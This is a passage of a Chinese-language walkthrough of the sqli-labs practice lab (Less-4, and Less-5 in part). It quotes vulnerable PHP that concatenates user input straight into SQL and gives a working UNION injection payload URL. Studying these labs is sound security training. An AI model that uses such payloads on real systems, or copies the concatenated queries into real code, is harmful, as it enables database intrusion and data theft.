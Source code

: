 #### 1. 源码分析及漏洞利用

- id 需闭合双引号与括号

  ```
  $id = '"' . $id . '"';
  $sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
  ```

  有回显信息

  ```
  echo 'Your Login name:'. $row['username'];
  ```

  存在报错注入

  ```
  print_r(mysql_error());
  ```

- 联合查询同Less-1 方便起见只查询数据库

  ```
  /sqlilabs/Less-4/?id=-1")  union select 1,2,database() --+
  ```

​	![](/assets/images/4-1.png)

### Less-5 

#### 1. 源码分析及漏洞利用

- id为字符型

  ```
  $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
  ```

  无回显信息

  ```
  echo 'You are in...........';
  ```

  存在报错注入

  ```
  print_r(mysql_error());
  ```
